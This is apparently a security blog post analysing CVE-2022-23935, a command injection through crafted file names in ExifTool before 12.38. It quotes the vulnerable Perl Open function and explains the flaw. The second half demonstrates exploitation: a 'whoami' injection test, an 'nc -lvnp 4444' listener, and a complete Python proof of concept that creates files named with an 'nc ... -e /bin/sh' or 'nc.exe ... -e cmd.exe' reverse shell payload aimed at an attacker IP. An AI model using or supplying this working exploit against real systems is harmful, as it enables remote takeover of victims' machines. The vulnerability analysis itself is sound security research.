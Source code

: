 ```yaml
---
title: CVE-2022-23935 - CVE Analyst
time: 2025-07-30 12:00:00
categories: [CVE Analyst]
tags: [CVE]
image: /assets/posts/CVE-2022-23935/1.png
---
```


## Introduction
## 🔒 CVE-2022-23935 Summary


| Field               | Information                     |
|--------------------|----------------------------------|
| **CVE ID**         | CVE‑2022‑23935                   |
| **CVSS Score**     | 7.8 (**HIGH**)                   |
| **Affected**       | ExifTool before version 12.38   |
| **Vulnerability**  | OS Command Injection             |
| **Release Date**   | 25/01/2022                       |

## Methodology
##### `lib/Image/ExifTool.pm` in ExifTool before 12.38 mishandles a `$file =~ /\|$/` check, leading to command injection.
### Analyst source code 
##### I started by downloading version 12.34 from the [github of Exiftool](https://github.com/exiftool/exiftool/releases/tag/12.34)
##### Open the Perl file located at `lib/Image/ExifTool.pm`
##### The vulnerability was found in the `Open` function.

```perl
sub Open($*$;$)
{
    my ($self, $fh, $file, $mode) = @_;

    $file =~ s/^([\s&])/.\/$1/; # protect leading whitespace or ampersand
    # default to read mode ('<') unless input is a pipe
    $mode = ($file =~ /\|$/ ? '' : '<') unless $mode;
    if ($mode) {
        if ($self->EncodeFileName($file)) {
            # handle Windows Unicode file name
            local $SIG{'__WARN__'} = \&SetWarning;
            my ($access, $create);
            if ($mode eq '>') {
                eval {
                    $access  = Win32API::File::GENERIC_WRITE();
                    $create  = Win32API::File::CREATE_ALWAYS();
                }
            } else {
                eval {
                    $access  = Win32API::File::GENERIC_READ();
                    $access |= Win32API::File::GENERIC_WRITE() if $mode eq '+<'; # update
                    $create  = Win32API::File::OPEN_EXISTING();
                }
            }
            my $share = 0;
            eval {
                unless ($access & Win32API::File::GENERIC_WRITE()) {
                    $share = Win32API::File::FILE_SHARE_READ() | Win32API::File::FILE_SHARE_WRITE();
                }
            };
            my $wh = eval { Win32API::File::CreateFileW($file, $access, $share, [], $create, 0, []) };
            return undef unless $wh;
            my $fd = eval { Win32API::File::OsFHandleOpenFd($wh, 0) };
            if (not defined $fd or $fd < 0) {
                eval { Win32API::File::CloseHandle($wh) };
                return undef;
            }
            $file = "&=$fd";    # specify file by descriptor
        } else {
            # add leading space to protect against leading characters like '>'
            # in file name, and trailing "\0" to protect trailing spaces
            $file = " $file\0";
        }
    }
    return open $fh, "$mode$file";
}
```
##### `$mode = ($file =~ /\|$/ ? '' : '<') unless $mode;` means: if the filename ends with `|`, open a pipe (`$mode = ''`), otherwise open in read mode (`$mode = '<'`).
##### If `$mode = '<'`, then the code runs: `open $fh, "<$file"` (read the file).
##### However, `$file =~ s/^([\s&])/.\/$1/;` only protects against leading whitespace or `&`, and **does not sanitize the rest of the filename**.
##### If I rename the file to `a.jpg|whoami|` (note: `|whoami|` at the end), then `$mode = ''`, so code executes: `open $fh, "a.jpg|whoami|"`.
## Exploitation
##### I tested with the file named `a.jpg|whoami|`
![image](/assets/posts/CVE-2022-23935/2.png)
##### Based on the information, the file name is confirmed as `a.jpg`, not `a.jpg|whoami|`, which indicates that the exploit was successful. However, since `a.jpg` doesn't exist, the whoami command was not executed.
##### So I added the file a.jpg to the folder and renamed it to a reverse shell payload.
![image](/assets/posts/CVE-2022-23935/3.png)
##### Also, open port 4444 on the attacker’s machine to start listening.

```
nc -lvnp 4444
```
##### After running, the file a.jpg was opened and the reverse shell connected successfully.
![image](/assets/posts/CVE-2022-23935/4.png)
![image](/assets/posts/CVE-2022-23935/5.png)
##### Try sending a message to the victim.
![image](/assets/posts/CVE-2022-23935/6.png)
![image](/assets/posts/CVE-2022-23935/7.png)
##### Now, I will write a proof of concept (PoC) for this vulnerability.

```python
import argparse
import requests
import shutil
import zipfile
import os

parser = argparse.ArgumentParser()
parser.add_argument("victim_os", help="Victim's OS: linux or windows")
parser.add_argument("attacker_ip", help="Attacker's IP address")
parser.add_argument("attacker_port", help="Attacker's port")
args = parser.parse_args()

victim_os = args.victim_os.lower()
attacker_ip = args.attacker_ip
attacker_port = args.attacker_port

image_url = "https://i.pinimg.com/736x/c9/ee/6d/c9ee6d47f7b18fc4e27dc77eb71d53d3.jpg"
response = requests.get(image_url)
with open("image.jpg", "wb") as f:
    f.write(response.content)
print("[+] Image downloaded: image.jpg")

if victim_os == "linux":
    malicious_name = f"image.jpg|nc {attacker_ip} {attacker_port} -e /bin/sh|"
elif victim_os == "windows":
    nc_url = "https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc.exe"
    response = requests.get(nc_url)
    with open("nc.exe", "wb") as f:
        f.write(response.content)
    malicious_name = f"image.jpg|nc.exe {attacker_ip} {attacker_port} -e cmd.exe|"
else:
    print("[-] Invalid OS. Only 'linux' or 'windows' are accepted.")
    exit()

shutil.copyfile("image.jpg", malicious_name)
print(f"[+] Malicious file created: {malicious_name}")
print("Run: nc -lvnp " + attacker_port + " on the attacker's machine to receive the victim's connection.")
```











